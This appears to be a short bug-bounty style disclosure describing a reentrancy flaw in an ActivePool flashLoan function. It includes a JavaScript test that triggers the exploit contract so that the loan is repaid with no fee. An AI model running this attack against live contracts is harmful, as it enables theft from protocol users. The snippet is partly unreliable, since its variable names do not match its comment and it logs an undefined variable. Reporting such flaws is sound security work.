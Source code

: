 ```

it("setUp and exploit", async () =>  {
       var _usdc = "0x17144556fd3424edc8fc8a4c940b2d04936d17eb";
       // set asset to stETH
       const stETH = await ierc20.at(_usdc);
      console.log("asset set to :" + s);

       const activePool = new web3.eth.Contract(activePoolAbi,activePoolAddress);       


      await exploit.setDesiredAmount(9999);
   

     const af = await activePool.methods.flashLoan(exploit.address,"0x17144556fd3424edc8fc8a4c940b2d04936d17eb",3333,"0x00");
    });

 });
```




The call re-enters 3 times (as pr desired amount is 3333 * 3 to reach) the flashloan will be taken and pays back 0 as fees




Regards,


Adam
